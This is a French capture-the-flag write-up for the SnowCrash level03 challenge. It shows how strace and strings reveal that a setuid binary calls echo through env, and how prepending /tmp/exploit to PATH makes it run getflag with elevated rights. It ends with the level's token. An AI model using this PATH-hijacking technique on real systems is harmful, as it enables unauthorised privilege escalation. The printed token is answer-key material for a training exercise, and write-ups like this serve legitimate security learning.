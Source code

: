 Nous avons un executable qui appartient a flag03:

`-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03 `

```bash
level03@SnowCrash:~$ ./level03
Exploit me
```

Rien d'interessant ici

Nous faisons plusieurs manipulations:

- hexdump => Rien d'exploitable
- strace => Rien d'interessant a part
```
getegid32() = 2003
geteuid32() = 2003
```

getegid32 correspond au group id
geteuid32 correspond au user id
Ces 2 id corresponde a l'id level03, le user sur lequel nous sommes.

Ensuite il y a des appels a
`setresgid32` et `setresuid32` qui ne retourne pas d'erreur

Dans l'appel qui ecrit `Exploit me` on voit 2442, mais cet id ne correspond a aucun utilisateur
```bash
cat /etc/passwd | grep 2442
```

Nous utilisons [strings](https://linux.die.net/man/1/strings) afin d'afficher les caracteres affichable du binaire level03

Nous voyons ici que l'executable var chercher dans l'env l'appel echo:
`/usr/bin/env echo Exploit me`

Nous nous disons que nous pouvons exploiter ceci en faisant executer `getflag` depuis ce binaire.

```bash
level03@SnowCrash:~$ env
...
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
...

level03@SnowCrash:~$ whereis getflag
getflag: /bin/getflag

level03@SnowCrash:~$ whereis echo
echo: /bin/echo /usr/share/man/man1/echo.1.gz

level03@SnowCrash:~$ mkdir /tmp/exploit

level03@SnowCrash:~$ cp /bin/getflag /tmp/exploit/echo
```

On peut bien lancer getflag avec un appel `echo` d'un autre PATH:
```bash
level03@SnowCrash:~$ /tmp/exploit/echo
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

On ajoute notre /tmp/exploit au PATH: [Procedure](https://geekeries.de-labrusse.fr/?p=2790)

```bash
level03@SnowCrash:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level03@SnowCrash:~$ export PATH=$PATH:/tmp/exploit
```

Le path a bien ete update mais ce n'est toujours pas le bon appel a `echo`

```bash
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp/exploit
```

Nous essayons de modifier l'ordre du PATH, grace a ce [stackoverflow](https://stackoverflow.com/questions/32170798/how-do-i-change-the-order-of-path)
```bash
level03@SnowCrash:~$ export PATH=/tmp/exploit:$PATH
level03@SnowCrash:~$ echo $PATH
/tmp/exploit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp/exploit
```

Et la ca fonctionne !!!

```bash
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```